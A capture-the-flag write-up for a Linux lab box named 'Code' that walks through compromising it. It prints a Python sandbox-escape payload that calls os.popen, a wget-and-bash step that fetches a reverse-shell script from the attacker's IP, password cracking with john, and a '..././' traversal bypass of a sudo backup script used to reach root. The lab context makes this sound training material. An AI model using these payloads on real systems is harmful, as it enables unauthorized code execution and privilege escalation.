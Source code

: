 # Code

```
Difficulty: Easy
Operating System: Linux
Hints: True
```



## ✅ Summary

| Step | User / Access | Technique Used              | Result                                                                                            |
| :--- | :------------ | :-------------------------- | :------------------------------------------------------------------------------------------------ |
| 1    | `N/A`         | Port Scanning               | Found HTTP on port `5000`, SSH, and identified a Python Code Editor service.                      |
| 2    | `www-data`    | SSTI Injection              | Executed arbitrary Python code to get a reverse shell as `www-data`.                              |
| 3    | `martin`      | Database Credential Dumping | Extracted `martin`'s password hash from `database.db` and cracked it.                             |
| 4    | `martin`      | SSH Access                  | Logged in as `martin` using cracked password and obtained `user.txt`.                             |
| 5    | `root`        | Sudo Script Misuse          | Abused sudo permission on `/usr/bin/backy.sh` with crafted `task.json` to back up `/root` folder. |
| 6    | `root`        | Root Flag Retrieval         | Retrieved `root.txt` from `/tmp/root/` after the backup script ran.                               |

---


## 🔍 Nmap Scan

```bash
nmap code.htb -sV -A

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
5000/tcp open  http    Gunicorn 20.0.4
|_http-title: Python Code Editor
|_http-server-header: gunicorn/20.0.4
```

---

## 🧱 Initial Foothold: SSTI Injection

* A Python code editor web app was running on port `5000`.
* Discovered SSTI vulnerability allowing Python code injection.
* Bypassed keyword filters using creative string concatenation.

Example payload to list root directory:

```python
print(''.__class__.__bases__[0].__subclasses__()[80].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()'))
```

* Downloaded a reverse shell script from attacker's machine and executed it:

```python
print(''.__class__.__bases__[0].__subclasses__()[80].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("wget 10.10.xx.xx/shell.sh -O /tmp/shell.sh").read()'))
print(''.__class__.__bases__[0].__subclasses__()[80].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("bash /tmp/shell.sh").read()'))
```

---

## 👤 Privilege Escalation Part 1: User Enumeration & Credential Dumping

* Discovered a `database.db` file in `/app/instance/`.
* Extracted a password hash for user `martin`.

Used `john` to crack the password:

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-MD5
```

Recovered password for `martin`.

---

## 👨‍💻 User Access: SSH Login

```bash
ssh martin@code.htb
```

* Found `user.txt` in `/home/martin/user.txt`.

---

## ⚡ Privilege Escalation Part 2: Sudo Script Exploitation

* Checked sudo permissions:

```bash
sudo -l
```

Result showed `martin` can run `/usr/bin/backy.sh` as root without a password.

* Analyzed `backy.sh` script:

  * Takes a JSON file as argument.
  * Validates that directories are under `/home/` or `/var/`.
  * Uses `jq` to clean `../` from input but is vulnerable to double write (`/.../.../.../...`) bypass.

Crafted `task.json`:

```json
{
    "directories_to_archive": [
        "/home/..././root/"
    ],
    "destination": "/tmp"
}
```

Executed the backup script:

```bash
sudo /usr/bin/backy.sh task.json
```

---

## 🏆 Root Flag Retrieval

After the script ran, obtained `root.txt` from the backup in `/tmp`.

```bash
cat /tmp/root/root.txt
```

## 🔧 Mitigations

* Disable arbitrary code execution features.
* Validate input strictly.
* Avoid NOPASSWD in sudo unless required.
* Secure password storage and enforce strong password policies.

---

